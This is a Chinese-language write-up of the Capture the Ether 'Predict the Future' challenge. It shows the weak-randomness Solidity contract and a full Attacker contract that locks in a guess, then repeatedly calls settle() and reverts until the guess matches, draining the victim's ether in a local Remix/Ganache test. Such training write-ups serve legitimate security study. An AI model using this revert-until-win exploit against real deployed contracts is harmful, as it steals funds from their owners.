








This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.

```solidity
pragma solidity ^0.4.21;

// 0xd9aD89E42a9b19b499cD0D63F7Ec76a5b708E43B
contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = n;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```


参考链接1：https://coinsbench.com/capture-the-ether-predict-the-future-cb5acf12a8cb

参考链接2：https://cmichel.io/capture-the-ether-solutions/

参考链接3：https://www.anquanke.com/post/id/154104#h3-5

这个puzzle需要调用**lockInGuess**先用输入答案，再调用**settle**来检查之前输入的答案对不对，但是执行**lockInGuess**时会将**settlementBlockNumber**设置为当前block.number + 1，而执行**settle**的时候则需要当前block.number大于**settlementBlockNumber**，这意味着无法在同一个交易中先**lockInGuess**再**settle**，因为同一笔交易中的block.number是一样的

解法如下代码所示，先调用**lockNum**，然后重复不断调用**attack**直到尝试成功，不成功会revert，不会将**guesser**置为0，也就不需要重新执行**lockInGuess**，只需要不断尝试**attack**就可以了

```solidity
pragma solidity ^0.8.0;

interface PredictTheFutureChallenge {
    function isComplete() external view returns (bool) ;

    function lockInGuess(uint8 n) external payable ;

    function settle() external ;
}

// 0x9c6c2E60295b8BA499C19FA6cDdCeDA5A9E09Db4
contract Attacker {
    address public owner;
    PredictTheFutureChallenge public victim;

    constructor(address _addr) {
        owner = msg.sender;
        victim = PredictTheFutureChallenge(_addr);
    }

    function lockNum(uint8 n) external payable{
        require(n >= 0 && n <=9, "Number must be in the 0-9 range");

        victim.lockInGuess{value: 1 ether}(n);
    }

    function attack() external payable{
        victim.settle();
        require(victim.isComplete(), "Wrong answer");
    }

    function withdraw() external {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {}
}
```


对本puzzle在我自己环境下进行试验，环境为remix连接ganche

```solidity
		function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }
```





先部署**PredictTheFutureChallenge**合约，记得在部署的时候携带1 ether，因为其在构造函数中要求了，部署完之后可以看到**PredictTheFutureChallenge**合约中有1 ETH的余额





再部署**Attacker**合约，在部署的时候传入**PredictTheFutureChallenge**的地址，可以看到victim的值是**PredictTheFutureChallenge**的地址





接着调用**lockNum**，传入一个[0,9]区间的值并携带1 ether，这里我们传入6，交易成功mining之后，我们可以看到**PredictTheFutureChallenge**合约中有2 ETH的余额



最后不断调用**attack**并携带1 ether，这时会弹出一个警告，不要理它，点击Send Transaction



如果计算出的数字不是6就会revert，在log输出区可以看到日志信息：revert Wrong answer，在若干次revert之后终于成功mining，此时可以看到**PredictTheFutureChallenge**合约中的余额变为0，而Attacker的余额变为3 ETH了。

